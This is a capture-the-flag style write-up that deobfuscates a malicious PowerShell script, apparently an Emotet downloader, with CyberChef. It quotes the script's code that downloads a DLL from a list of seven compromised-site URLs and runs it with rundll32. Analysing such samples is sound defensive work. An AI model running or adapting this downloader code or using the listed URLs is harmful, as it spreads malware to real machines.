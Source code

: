 #### The Planet's Prestige

#### Maliciou PowerShell Analysis

> file : ps_script.ps

Using CyberChef, 

#### Questions

First, we see `POwersheLL -w hidden -ENCOD`. PowerShell accepts case-insensitive input, so we can ignore .

`POwersheLL -w hidden`means that a hidden PowerShell window (invisible to the user) is opened, and `-ENCOD,`shorthand for `encoded` shows that the script was encoded with Base64.

The first thing to do is recognise that the PowerShell payload is `base64` encoded. We can overcome this hurdle easily with **From Base64** in CyberChef. I like to use **Regular Expression** to extract the encoded string.

##### 1) What security protocol is being used for the communication with a malicious domain?

```
"sEcuRITYproT`o`c`ol" = ('T'+('ls'+'12'));
```

**Answer:**  TLS 1.2

##### 2) What directory does the obfuscated PowerShell create? (Starting from \HOME\) 

```
"c`REAt`edI`REC`TORy"($HOME + (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}')-F [chAR]92))

ps > echo (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') -F [chAR]92))
   > \Db_bh30\Yf5be5g
```

**Answer:** \HOME\Db_bh30\Yf5be5g\

##### 3) What file is being downloaded (full name)?

```
foreach ($Bm5pw6z in $B9fhbyv){try{(&('New'+'-Objec'+'t') SysTem.nEt.WEBcLIeNT)."do`WNl`OaD`FIlE"($Bm5pw6z, $Imd1yck)
: Downloaded file is $Imd1yck

$Imd1yck=$HOME+((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l')

PS > echo ((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l')
: \Db_bh30\Yf5be5g\ + $Swrp6tc + .dll

$Swrp6tc = (('A6'+'9')+'S')
: A69S
```

**Answer:** A69S.dll

##### 4) What is used to execute the downloaded file?

```
If ((&('Ge'+'t-It'+'em') $Imd1yck)."len`G`TH" -ge 35698) {&('r'+'undl'+'l32') $Imd1yck,(('Co'+'nt')+'r'+('ol'+'_RunD'+'L')+'L')."T`OSt`RiNG"()\n$R65I=('Z'+('09'+'B'))
```

**Answer:** rundll32

##### 5) What is the domain name of the URI ending in ‘/6F2gd/’ 

```
$B9fhbyv=(']'+('a'+'nw[3s://adm'+'int'+'k.c'+'o'+'m/'+'w')+('p-adm'+'in/'+'L/')+'@'+(']a'+'n'+'w[3s')+':'+'/'+'/m'+('ike'+'ge')+('e'+'r'+'inck.')+('c'+'om')+('/c/'+'Y'+'Ys')+'a'+('/@]'+'anw'+'['+'3://free'+'lanc'+'e'+'rw')+('ebdesi'+'gnerh'+'yd')+('er'+'aba')+('d.'+'com/')+('cgi'+'-bin'+'/S')+('/'+'@'+']anw')+('[3'+'://'+'etdog.co'+'m'+'/w')+('p-'+'co')+'nt'+('e'+'nt')+('/n'+'u/@')+(']a'+'nw[3')+'s'+('://'+'www'+'.hintu'+'p.c')+('o'+'m.')+('b'+'r/')+'w'+('p'+'-co')+('n'+'ten')+('t'+'/dE/'+'@]a'+'nw[3://'+'www.')+'s'+('tm'+'arouns'+'.')+('ns'+'w')+('.'+'edu.au/p'+'a'+'y'+'pal/b8')+('G'+'/@]')+('a'+'nw[')+('3:'+'/')+('/'+'wm.mcdeve'+'lop.net'+'/'+'c'+'on'+'t'+'e')+('nt'+'/')+'6'+('F2'+'gd/'))."RE`p`lACe"(((']a'+'n')+('w'+'[3')),([array]('sd','sw'),(('h'+'tt')+'p'),'3d')[1])."s`PLIT"($C83R + $Cvmmq4o + $F10Q)

PS > echo $$B9fhbyv
https://admintk.com/wp-admin/L/@https://mikegeerinck.com/c/YYsa/@http://freelancerwebdesignerhyderabad.com/cgi-bin/S/@http://etdog.com/wp-content/nu/@https://www.hintup.com.br/wp-content/dE/@http://www.stmarouns.nsw.edu.au/paypal/b8G/@http://wm.mcdevelop.net/content/6F2gd/
```

**Answer:** wm.mcdevelop.net

##### 6) Based on the analysis of the obfuscated code, what is the name of the malware? 

```
search in google > wm.mcdevelop.net
```

**Answer:** emotet